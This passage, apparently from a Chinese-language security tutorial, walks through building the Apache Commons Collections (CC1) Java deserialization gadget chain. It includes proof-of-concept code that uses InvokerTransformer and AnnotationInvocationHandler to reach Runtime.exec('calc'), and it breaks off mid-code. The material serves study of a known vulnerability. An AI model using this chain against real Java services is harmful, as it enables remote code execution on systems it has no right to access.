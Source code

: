 ```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Retention.class,outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();
    }
}
```

出现异常：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119133547.png)

原因是，Java中不是所有对象都支持序列化，待序列化的对象和所有它使用的内部属性对象，必须都实
现了 java.io.Serializable 接口。而我们最早传给ConstantTransformer的是Runtime.getRuntime() ，Runtime类是没有实现 java.io.Serializable 接口的，所以不允许被序列化 。

通过反射获取Runtime对象：

```java
Method method = Runtime.class.getMethod("getRuntime");
Runtime r= (Runtime) method.invoke(null);
r.exec("calc");
```

修改POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("test","xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);


        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
```